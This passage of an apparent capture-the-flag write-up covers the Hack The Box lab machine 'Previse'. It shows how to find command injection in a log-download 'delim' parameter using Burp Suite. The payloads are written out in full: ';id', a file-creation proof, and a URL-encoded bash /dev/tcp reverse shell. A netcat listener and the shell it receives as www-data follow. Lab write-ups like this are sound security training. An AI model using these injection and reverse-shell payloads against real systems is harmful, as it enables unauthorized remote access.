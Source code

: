 [missing example]

Analysing the request made to retrieve server logs lets us spot a potential command injection vulnerability as per the information we learned earlier from the logs.php file.

# Command Injection

![Deliminator Request](/htbprevise/commandinjection.png)

Analysing the request in burpsuite, with the knowledge it is passed through the shell in python, we can attempt command execution by appending a semicolon onto the deliminator paramter.

{{< highlight bash >}}
delim=comma;id
{{< /highlight >}}

After modifying the request in burpsuite, we do not recieve an error however the normal behaviour of recieving the log file.
To confirm the existence of the vulnerability, we create a payload that will touch a new file onto the server which we should be able to access from the URL. This is assuming that the server is in the www-data working directory.

{{< highlight bash >}}
delim=space;touch+thisfileexists.txt;echo+"i+exist"+>>+thisfileexists.txt
{{< /highlight >}}
*this will create a text file and write "i exist", the '+' symbols are representative of spaces as we must URL encode this for the server to understand.

![Command Injection Poc](/htbprevise/2commandinjection.png)

Navigating the the url /thisfileexists.txt in our browser, we can confirm command injection through the delimiter paramter!

# Foothold

We can create a payload to spawn a reverse shell on the system. Using a bash TCP payload from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/">PayloadAllTheThings</a> we can attempt to recieve a connection.
* Don't forget to URL encode the '&' sybols as to not interpret the payload as multiple bash commands!

{{< highlight bash >}}
delim=comma;bash+-c+'sh+-i+>%26+/dev/tcp/0.0.0.0/9001+0>%261'
{{< /highlight >}}

We can set up a listener on netcat to catch the reverse shell:
{{< highlight bash >}}
nc -lvnp 9001
{{< /highlight >}}

After sending the request, we recieve a connection back!

{{< highlight bash >}}
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.104] 41578
sh: 0: can't access tty; job control turned off
$ whoami
www-data
{{< /highlight >}}
